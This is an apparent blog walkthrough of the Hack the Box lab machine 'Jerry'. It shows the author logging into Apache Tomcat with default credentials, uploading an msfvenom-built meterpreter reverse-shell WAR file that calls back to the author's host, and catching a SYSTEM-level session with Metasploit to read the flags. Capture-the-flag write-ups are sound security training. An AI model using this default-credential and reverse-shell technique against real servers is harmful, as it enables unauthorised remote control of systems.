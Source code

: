 ```yaml
---
layout: post
title:  "Hack the Box - Jerry"
date:   2018-07-30 23:23:00
categories: [walkthrough, htb]
comments: false
---
```

![HTB-jerry](/img/htb/jerry.png)

An easy box by mrh4sh.  Really simple box in the same venue as Lame, Blue, Grandma/Grandpa.  Great for those starting out to attempt.

{% highlight bash %}
meterpreter > sysinfo
Computer    : JERRY
OS          : Windows Server 2012 R2 6.3 (amd64)
Meterpreter : java/windows
meterpreter > getuid
Server username: JERRY$
meterpreter >
{% endhighlight %}

<!--more-->

## Discovery/Enumeration

Recently I discovered a pretty cool tool for discovery called `RECONNOITRE`.  I had been using Sparta in the past but I really liked how this one ran in the command line and saved its findings automatically.  

{% highlight bash %}
┌[ ~/hackthebox/boxes/retired ] [master !?]
└─> root@kali # reconnoitre -t  10.10.10.95 --services -o `pwd`
  __
|\"\"\"\-=  RECONNOITRE
(____)      An OSCP scanner by @codingo_

[+] Testing for required utilities on your system.
[#] Performing service scans
[*] Loaded single target: 10.10.10.95
[+] Creating directory structure for 10.10.10.95
   [>] Creating scans directory at: /root/hackthebox/boxes/retired/10.10.10.95/scans
   [>] Creating exploit directory at: /root/hackthebox/boxes/retired/10.10.10.95/exploit
   [>] Creating loot directory at: /root/hackthebox/boxes/retired/10.10.10.95/loot
   [>] Creating proof file at: /root/hackthebox/boxes/retired/10.10.10.95/proof.txt
[+] Starting quick nmap scan for 10.10.10.95
[+] Writing findings for 10.10.10.95
[*] Found HTTP/S service on 10.10.10.95:8080
[*] Found HTTP service on 10.10.10.95:8080
[*] TCP quick scans completed for 10.10.10.95
[+] Starting detailed TCP/UDP nmap scans for 10.10.10.95

{% endhighlight %}

Right away it found a web server running on TCP/8080, it also provides a couple of decent tips for how to procede in enumeration.  Note that sometimes the commands have syntax errors in them, probably something that is fixable...

{% highlight bash %}
[*] Found HTTP/S service on 10.10.10.95:8080
   [*] Enumeration
      [=] nikto -h 10.10.10.95 -p 8080 -output /root/hackthebox/boxes/retired/10.10.10.95/scans/10.10.10.95_8080_nikto.txt
      [=] curl -i 10.10.10.95:8080
      [=] w3m -dump 10.10.10.95/robots.txt | tee /root/hackthebox/boxes/retired/10.10.10.95/scans/10.10.10.95_8080_robots.txt
      [=] VHostScan -t 10.10.10.95 -oN /root/hackthebox/boxes/retired/10.10.10.95/scans/10.10.10.95_8080_vhosts.txt

[*] Found HTTP service on 10.10.10.95:8080
   [*] Enumeration
      [=] dirb http://10.10.10.95:8080/ -o /root/hackthebox/boxes/retired/10.10.10.95/scans/10.10.10.95_8080_dirb.txt
      [=] dirbuster -H -u http://10.10.10.95:8080/ -l /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 20 -s / -v -r /root/hackthebox/boxes/retired/10.10.10.95/scans/10.10.10.95_8080_dirbuster_medium.txt
      [=] gobuster -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.10.95:8080/ -s '200,204,301,302,307,403,500' -e | tee '/root/hackthebox/boxes/retired/10.10.10.95/scans/10.10.10.95_8080_gobuster_common.txt'
      [=] gobuster -w /usr/share/seclists/Discovery/Web-Content/CGIs.txt -u http://10.10.10.95:8080/ -s '200,204,301,307,403,500' -e | tee '/root/hackthebox/boxes/retired/10.10.10.95/scans/10.10.10.95_8080_gobuster_cgis.txt'

[*] Always remember to manually go over the portscan report and carefully read between the lines ;)
{% endhighlight %}

Browsing to http://10.10.10.95:8080/ we are greeted by Apache Tomcat, oh how I like Tomcat.  

![HTB-jerry](/img/htb/jerry/tcp8080.png)

By default old version of tomcat use `tomcat:s3cret` to authenticate.  There are a couple other defaults out there as well depending on the versions.  lets try those and see if that gives us access.

![HTB-jerry](/img/htb/jerry/tomcat-login.png)

## Exploitation

Awesome, and we have the opportunity to upload our own WAR file.  This should make for an easy shell.  To create the malicious payload we can use msfvenom:

{% highlight bash %}
┌[ ~/hackthebox/www ] [master !?]
└─> root@kali # msfvenom -p java/meterpreter/reverse_tcp LHOST=10.10.14.17 LPORT=443 -f war > 10.10.14.17.mrtcp443.war
Payload size: 1083 bytes
Final size of war file: 1083 bytes


┌[ ~/hackthebox/www ] [master !?]
└─> root@kali #
{% endhighlight %}

I try to give my payloads a rather descriptive name for these CTF's in the event I need to rebuild or reuse one.   Scroll down to `WAR file to deploy` and upload the output of msfvenom.

![HTB-jerry](/img/htb/jerry/tomcat-backdoord.png)

And prepare a multi/handler to catch the session in Metasploit.  If you are trying to keep it Metasploit-free a netcat session would work here as well using the java/jsp_shell_reverse_tcp payload instead.  Click on the link for the name to get your shell.

{% highlight bash %}
msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun0             yes       The listen address (an interface may be specified)
   LPORT  443              yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.17:443
[*] Sending stage (53906 bytes) to 10.10.10.95
[*] Meterpreter session 2 opened (10.10.14.17:443 -> 10.10.10.95:49194) at 2020-02-06 15:28:59 -0700

meterpreter > sysinfo
Computer    : JERRY
OS          : Windows Server 2012 R2 6.3 (amd64)
Meterpreter : java/windows
meterpreter > getuid
Server username: JERRY$
meterpreter >
{% endhighlight %}

Oh nice, immediatly system, no privesc for us.

## Loot!

{% highlight bash %}
meterpreter > shell
Process 1 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>cd C:\Users\Administrator\Desktop\flags
C:\Users\Administrator\Desktop\flags>type *
user.txt
700**************************d00

root.txt
04a**************************90e
C:\Users\Administrator\Desktop\flags>
{% endhighlight %}

